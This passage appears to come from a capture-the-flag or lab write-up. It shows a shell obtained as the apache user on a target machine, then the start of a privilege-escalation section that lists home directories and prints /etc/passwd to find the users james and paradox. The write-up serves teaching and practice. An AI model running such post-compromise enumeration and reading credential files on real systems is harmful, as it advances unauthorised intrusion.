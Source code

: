 ```
drwxr-xr-x.  17 root root  244 Nov 18  2020 ..
-rw-r--r--    1 root root    0 Nov 17  2020 .autorelabel
lrwxrwxrwx.   1 root root    7 May 11  2019 bin -> usr/bin
dr-xr-xr-x.   6 root root 4096 Nov 18  2020 boot
drwxr-xr-x   19 root root 2960 Sep 13 16:24 dev
drwxr-xr-x.  85 root root 8192 Sep 13 16:25 etc
drwxr-xr-x.   4 root root   34 Nov  8  2020 home
lrwxrwxrwx.   1 root root    7 May 11  2019 lib -> usr/lib
lrwxrwxrwx.   1 root root    9 May 11  2019 lib64 -> usr/lib64
drwxr-xr-x.   2 root root    6 May 11  2019 media
drwxr-xr-x.   2 root root    6 May 11  2019 mnt
drwxr-xr-x.   2 root root    6 May 11  2019 opt
dr-xr-xr-x  132 root root    0 Sep 13 16:20 proc
dr-x------.   3 root root  141 Nov 17  2020 root
drwxr-xr-x   25 root root  800 Sep 13 16:25 run
lrwxrwxrwx.   1 root root    8 May 11  2019 sbin -> usr/sbin
drwxr-xr-x.   2 root root    6 May 11  2019 srv
dr-xr-xr-x   13 root root    0 Sep 13 16:21 sys
drwxrwxrwt    2 root root    6 Sep 13 16:25 tmp
drwxr-xr-x.  12 root root  144 Nov  8  2020 usr
drwxr-xr-x.  21 root root 4096 Nov  8  2020 var
sh-4.4$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
sh-4.4$ 
```

## Privilege Escalation
From here we can try to escalate our privileges. If we take a look at the home directories and the _/etc/passwd_, we can find the two users `james` and `paradox`:
```
sh-4.4$ ls -al /home
ls -al /home
total 0
drwxr-xr-x.  4 root    root     34 Nov  8  2020 .
drwxr-xr-x. 17 root    root    244 Nov 18  2020 ..
drwx------.  3 james   james   112 Nov 17  2020 james
drwx------.  4 paradox paradox 203 Nov 18  2020 paradox
sh-4.4$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
polkitd:x:998:996:User for polkitd:/:/sbin/nologin
sssd:x:997:994:User for sssd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
chrony:x:996:993::/var/lib/chrony:/sbin/nologin
rngd:x:995:992:Random Number Generator Daemon:/var/lib/rngd:/sbin/nologin
```